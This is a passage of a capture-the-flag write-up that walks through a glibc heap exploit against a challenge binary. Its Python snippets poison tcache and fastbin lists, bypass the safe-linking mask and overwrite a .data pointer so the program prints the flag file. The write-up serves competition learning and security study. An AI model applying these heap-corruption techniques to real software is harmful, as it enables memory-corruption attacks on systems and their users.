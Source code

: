 ```python
delete_cookie(15) # Fills up the tcache again
create_cookie()   # Ends up in the top chunk
delete_cookie(32) # Ends up in fastbins
r.sendline(b'5' * 0x400)
r.recvuntil(b'-----------------------------------------')
```

We empty the tcachebin for size 0x80 because we will need to allocate 8-ball
user input buffers from the top chunk. The first buffer allocated now from the
tcache will be at offset 0xe80 from the heap base.

```python
for i in range(7):
    create_ball(b"./flag.txt\x00")
# +17 because "Oh Magic 8 Ball, " prepended to our input
flag_txt = heap_base + 0xe80 + 17
```

We finally allocate our 0x10 user input buffer with `store_lucky_num()` where
`c[32].this` is still pointing. The 8-ball buffer allocated right after that is
used to fix `c[32].this->my_entry`: otherwise `delete_cookie` will detect
corruption. `c[32].this->my_entry` should point at `&c[32]`, i.e. `c + 32 *
0x10`, i.e. `section_data_address + 0xA0 + 32 * 0x10`.

```python
create_lucky_number() # Ends up at c[32].this
create_ball(fit({
    0x68 - 0x20 - 17: p64(section_data_address + 0xA0 + 32 * 0x10)
}))
```

Now we free cookie 32 and corrupt its forward pointer. We want the next chunk to
start at `.data + 0x30`, where the pointer to `"./oracle.txt"` is stored.
Therefore, accounting for chunk metadata, the fastbin forward pointer must point
at `.data + 0x20`. We have to apply the safe linking mask. We are lucky enough
not to have any alignment issues with this address, because `.data + 0x28`
contains the quadword `0x21` that matches exactly the size of our chunks.

```python
delete_cookie(32)
protect_mask = (heap_base >> 12) + 1
update_lucky_number(p64(protect_mask ^ (section_data_address + 0x20)))
```

We still have to consume one fastbin still with `get_lucky_num` and then we will overwrite
the target pointer without messing up the next quadword.

```python
get_lucky()
sign(p64(flag_txt) + b'\x0b')
```

Now if you choose option 6 for a few times at the menu you will read a random
line from `./flag.txt`!

Many thanks to Gabriele Digregorio who wrote the final exploit at 4 A.M. in the
morning and the messy writeup on Sunday and to Lorenzo Binosi who noticed
`malloc_consolidate()` in the glibc sources!
